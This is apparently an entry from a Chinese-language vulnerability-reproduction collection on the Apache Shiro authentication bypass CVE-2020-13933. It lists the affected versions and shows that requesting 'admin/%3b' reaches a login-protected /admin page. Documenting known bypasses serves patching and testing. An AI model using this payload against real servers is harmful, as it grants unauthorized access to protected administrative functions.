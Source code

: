 # Apache Shiro 1.6.0 身份认证绕过漏洞 CVE-2020-13933

## 漏洞描述

2020年8月18日，Apache Shiro官方发布安全通告 Apache Shiro身份验证绕过漏洞（CVE-2020-13933），经过分析，攻击者可以通过构造特殊的HTTP请求实现身份验证绕过。

## 漏洞影响

```
Apache Shiro < 1.6.0
```

## 漏洞复现

正常访问 /admin，需要登录：

![image-20230724162154509](images/image-20230724162154509.png)

构造恶意请求绕过：

```
admin/%3b
```

![image-20230724162320484](images/image-20230724162320484.png)